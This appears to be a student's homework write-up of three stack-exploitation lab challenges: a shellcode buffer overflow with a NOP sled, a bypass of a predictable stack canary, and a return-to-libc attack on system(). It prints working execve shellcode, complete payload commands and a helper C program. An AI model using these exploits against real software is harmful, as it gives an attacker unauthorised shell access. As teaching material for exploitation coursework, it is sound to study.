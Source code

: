 # Author

Derek Xu

# Challenge 1

This one involves a buffer overflow attack.

We first use the shell code provided in class that runs the assembly to invoke a shell.

```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

Then we run gdb on the binary to find the address of the buffer overflow. We found out that we have to overwrite about 80 bytes. With a 23 byte shell code, we pad the shell code with 39 NOPs, and 14 random bytes, then with the new return address we want to go to. With some trial and error with the padding and NOP sled, we are able to invoke the shell via the binary script.

```bash
 python -c "print '\x90'*39+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80'+'A'*10 +'B'*4+'\x7c\xad\xff\xbf'" > asd
```

# Challenge 2

This one is very similar to challenge 1. We can use the same distances between the buffer and return address as Challenge 1 but add 4 to it since instead of just a 64 byte buffer, we have an extra 4 byte buffer before that as well. So we have to overwrite 84 bytes.

This new code requires check of a canary at the position right after the buffer. So we need to add the canary value within our payload right after 64 bytes of something before. We can then add in the 4 byte canary value and add in the rest of the padding and return address to execute our injected shell code.

To get the value of the canary, I first flooded the 64 byte buffer with 63 A's (with the string terminator = 64 bytes). Then I inspected the stack and found the value right after the A's to be 0x726c576e. Upon looking at the raw c code, it's clear that the value won't change since rand() is used without a seed, so it will produce the same canary value every execution. We can put that canary value into our payload to bypass the canary check. Using the same process of using GDB to find the return address, we can update the return address to put the program into the NOP slide.

![canary](images/2_canary.png)

After a lot of trial and error, I was able to use the following

```bash
python -c "print '\x90'*41 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80'+ '\x6e\x57\x6c\x72' + 'A'*12 + '\x1c\x65\xff\xbf'" > asd2
```

# Challenge 3

This challenge involves a similar case to challenge 1, but now stack pages are separated between data and executable pages. Thus we need to find a way to return into libc so that we can run a libc function instead.

We first set the SHELL environment variable to be /bin/sh.

We need to overwrite 44 bytes. System is at 0xb7e2a250 as given by the `p system` command in GDB.

So in total, to create a stack frame for system(), we need to fill the buffer with 44 + 4 (func return address) + 4 (system() return addr) + 4 (system() parameters) = 56 bytes.

In order to get the /bin/sh binary, we can write a script that will get the environment of a binary and find the offset from SHELL to the beginning of the binary.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {

        char *target_env = argv[1];
        char *env = getenv(target_env);


        printf("%p\n", env);

        return 0;

}
```

This gives 0xbfffff0d. When using this address, we can insert it as the argument for system().

```bash
python -c "print 'A'*44 + '\x50\xa2\xe2\xb7' + 'BBBB' + '\xfd\xfe\xff\xbf'" > asd3
cat ~/hw5/asd3 - | /usr/bin/binary3
```

This gives us an error, showing that we are reading somewhere else in our ENV list. So we tweak the address of it to be 0xbffffefd instead. This points straight to "/bin/sh", which then gets called by system() and we then have a shell running under binary3.
